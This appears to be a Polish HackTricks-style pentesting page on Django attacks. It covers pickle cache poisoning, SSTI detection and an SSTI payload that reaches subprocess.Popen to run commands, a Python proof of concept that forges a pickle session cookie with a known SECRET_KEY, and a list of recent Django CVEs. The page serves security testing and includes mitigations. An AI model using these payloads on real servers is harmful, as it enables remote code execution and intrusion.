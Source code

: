 # Django

{{#include /banners/hacktricks-training.md}}

## Manipulacja pamięcią podręczną do RCE
Domyślną metodą przechowywania pamięci podręcznej w Django są [Python pickles](https://docs.python.org/3/library/pickle.html), co może prowadzić do RCE, jeśli [niezaufany input jest odpakowywany](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf). **Jeśli atakujący uzyska dostęp do zapisu w pamięci podręcznej, może eskalować tę podatność do RCE na serwerze bazowym**.

Pamięć podręczna Django jest przechowywana w jednym z czterech miejsc: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [pamięci](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [plikach](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16) lub w [bazie danych](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Pamięć podręczna przechowywana na serwerze Redis lub w bazie danych jest najbardziej prawdopodobnym wektorem ataku (iniekcja Redis i iniekcja SQL), ale atakujący może również wykorzystać pamięć podręczną opartą na plikach, aby przekształcić dowolny zapis w RCE. Utrzymujący oznaczyli to jako problem, który nie wymaga uwagi. Ważne jest, aby zauważyć, że folder plików pamięci podręcznej, nazwa tabeli SQL i szczegóły serwera Redis będą się różnić w zależności od implementacji.

Ten raport HackerOne dostarcza świetnego, powtarzalnego przykładu wykorzystania pamięci podręcznej Django przechowywanej w bazie danych SQLite: https://hackerone.com/reports/1415436

---

## Wstrzykiwanie szablonów po stronie serwera (SSTI)
Język szablonów Django (DTL) jest **kompletny w sensie Turinga**. Jeśli dane dostarczone przez użytkownika są renderowane jako *ciąg szablonu* (na przykład przez wywołanie `Template(user_input).render()` lub gdy `|safe`/`format_html()` usuwa automatyczne eskapowanie), atakujący może osiągnąć pełne SSTI → RCE.

### Wykrywanie
1. Szukaj dynamicznych wywołań do `Template()` / `Engine.from_string()` / `render_to_string()`, które zawierają *jakiekolwiek* niesanitizowane dane z żądania.
2. Wyślij ładunek oparty na czasie lub arytmetyce:
```django
{{7*7}}
```
Jeśli renderowany wynik zawiera `49`, input jest kompilowany przez silnik szablonów.

### Primitwa do RCE
Django blokuje bezpośredni dostęp do `__import__`, ale graf obiektów Pythona jest osiągalny:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
Znajdź indeks `subprocess.Popen` (≈400–500 w zależności od wersji Pythona) i wykonaj dowolne polecenia:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
Bezpieczniejszym uniwersalnym gadżetem jest iteracja, aż `cls.__name__ == 'Popen'`.

Ten sam gadżet działa dla funkcji renderowania **Debug Toolbar** lub **Django-CMS**, które niewłaściwie obsługują dane wejściowe użytkownika.

---

## RCE z wykorzystaniem ciasteczka sesyjnego opartego na Pickle
Jeśli ustawienie `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'` jest włączone (lub niestandardowy serializer, który deserializuje pickle), Django *deszyfruje i unpickluje* ciasteczko sesyjne **przed** wywołaniem jakiegokolwiek kodu widoku. Dlatego posiadanie ważnego klucza podpisu (domyślnie `SECRET_KEY` projektu) wystarcza do natychmiastowego zdalnego wykonania kodu.

### Wymagania dotyczące eksploatacji
* Serwer używa `PickleSerializer`.
* Atakujący zna / może zgadnąć `settings.SECRET_KEY` (wycieki przez GitHub, `.env`, strony błędów itp.).

### Dowód koncepcji
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
Wyślij wynikowe ciasteczko, a ładunek działa z uprawnieniami pracownika WSGI.

**Mitigacje**: Utrzymuj domyślny `JSONSerializer`, rotuj `SECRET_KEY` i skonfiguruj `SESSION_COOKIE_HTTPONLY`.

---

## Ostatnie (2023-2025) Wysokiego Wpływu CVE Django, które powinni sprawdzić pentesterzy
* **CVE-2025-48432** – *Wstrzykiwanie logów przez nieucieczone `request.path`* (naprawione 4 czerwca 2025). Pozwala atakującym na przemycanie nowych linii/kodów ANSI do plików logów i zanieczyszczanie analizy logów w dół. Poziom łaty ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *Krytyczne wstrzykiwanie SQL* w `QuerySet.values()/values_list()` na `JSONField` (CVSS 9.8). Twórz klucze JSON, aby wydostać się z cytatów i wykonywać dowolne SQL. Naprawione w 4.2.15 / 5.0.8.

Zawsze identyfikuj dokładną wersję frameworka za pomocą strony błędu `X-Frame-Options` lub hasha `/static/admin/css/base.css` i testuj powyższe tam, gdzie to możliwe.

---

## Odniesienia
* Wydanie zabezpieczeń Django – "Django 5.2.2, 5.1.10, 4.2.22 adresuje CVE-2025-48432" – 4 czerwca 2025.
* OP-Innovate: "Django wydaje aktualizacje zabezpieczeń w celu rozwiązania problemu z wstrzykiwaniem SQL CVE-2024-42005" – 11 sierpnia 2024.

{{#include /banners/hacktricks-training.md}}
